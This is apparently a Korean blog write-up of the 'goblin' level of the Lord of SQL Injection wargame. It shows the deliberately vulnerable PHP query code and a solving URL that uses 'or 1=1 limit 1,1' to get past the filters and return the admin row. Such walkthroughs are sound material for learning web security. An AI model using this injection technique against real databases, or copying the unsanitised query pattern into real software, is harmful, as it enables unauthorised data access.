 Lord of SQL Injection No.3 - goblin
...
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__);
?>
...
위 문제에서 알 수 있는 것
preg_match에 의해 $_GET[no]값에 . ()가 들어가면 No Hack ~_~가 뜨면서 문제풀이에 실패하는 것을 알 수 있다.
또한 $_GET[no]값에 ' " `가 들어가면 No Qutes ~_~가 뜨면서 문제풀이에 실패하는 것을 알 수 있다.
$result['id']가 admin이면 문제가 풀리는 것을 알 수 있다.

문제 풀이 법
1) Limit 구문 활용
http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=2%20or%201=1%20limit%201,1
id값이 guest로 고정 되어 있으므로 값을 입력할수있는 no에 값을 입력해서 뚫어야한다.
no에 아무 값을 넣어주고 참이 되게 만들어준후 limit구문을 써준다.
limit 0,1(0번째 레코드에서 1개의 값을 불러오는 구문)을 넣었을때 Hello guest가 뜨므로 첫번째 값이 id라는 것을 추측할수있다.
각 레코드의 첫번째 값이 id이므로 레코드 순서를 바꾸어 가며 실행시켜본다.
limit 1,1 limit 2,1 이런식으로 말이다. 이 문제에서는 limit 1,1을 실행시켜보자 바로 풀리게된다.(python코드로 푸는것도 괜찮을것같다.)
